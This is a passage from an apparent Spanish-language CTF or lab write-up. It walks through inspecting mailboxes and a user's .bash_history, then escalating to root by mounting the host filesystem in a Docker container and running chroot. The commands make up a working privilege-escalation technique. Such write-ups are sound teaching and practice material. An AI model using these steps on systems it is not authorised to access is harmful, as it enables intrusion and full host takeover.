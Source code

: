 
## 📬 4. Búsqueda del "correo"

Una vez dentro como juan, se exploraron los buzones comunes:

```bash
cd /var/mail
cd /var/spool/mail
```

Ambos estaban vacíos.

Al revisar el .bash_history del usuario:

```bash
cat ~/.bash_history
```

<img width="269" height="152" alt="5-bash_history" src="https://github.com/user-attachments/assets/477d6ebe-3577-431e-8a3d-4f07e217c308" /><br>

Se encontró:

```bash
cat para\ juan.txt
cat para\ root.txt
docker run -it -v /:/mnt alpine
su
```

Esto indica:

- Existieron archivos para juan.txt y para root.txt.

- Se usó Docker con acceso al sistema host.

- Se intentó escalar privilegios con su.

## 🐳 4. Escalada de privilegios con Docker

El historial reveló el uso del siguiente comando:

```bash
docker run -it -v /:/mnt alpine
```

<img width="412" height="296" alt="6-contenedor-docker" src="https://github.com/user-attachments/assets/bc56ef31-7b55-4c5e-81fd-bb0a72f6e241" /><br>

Esto monta todo el sistema del host dentro del contenedor en /mnt, una técnica clásica de escape cuando el usuario tiene acceso sin restricciones a docker.<br>

Se accedió al contenedor, y luego se ejecutó:

```bash
chroot /mnt
```

<img width="353" height="58" alt="7-escalada-root" src="https://github.com/user-attachments/assets/b389b8c1-f465-44a2-b04b-9f0da3c16c94" />

### 🔍 ¿Cómo lo supe?
